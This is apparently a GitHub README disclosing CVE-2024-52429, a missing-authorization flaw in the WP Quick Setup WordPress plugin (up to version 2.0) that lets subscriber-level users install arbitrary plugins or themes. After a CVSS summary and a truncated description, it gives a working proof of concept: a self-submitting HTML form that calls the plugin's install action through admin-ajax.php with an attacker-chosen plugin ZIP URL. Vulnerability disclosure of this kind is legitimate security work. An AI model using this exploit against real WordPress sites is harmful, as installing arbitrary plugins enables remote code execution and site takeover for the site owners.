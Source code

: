 # CVE-2024-52429
WP Quick Setup &lt;= 2.0 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin/Theme Installation

# Description: 

The WP Quick Setup plugin for WordPress is vulnerable to unauthorized plugin and theme installation due to a missing capability check on a function in all versions up to, and including, 2.0. This makes it 

```
Type: plugin
CVSS Score: 8.8
CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVE: CVE-2024-52429
```

POC
---

Login as a subscriber then run this html

```
<html>
  <body>
    <form action="https://wp-dev.ddev.site/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wes&#95;install&#95;plugins" />
      <input type="hidden" name="plugin&#95;urls&#91;&#93;" value="https&#58;&#47;&#47;downloads&#46;wordpress&#46;org&#47;plugin&#47;wdes&#45;responsive&#45;mobile&#45;menu&#46;zip" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
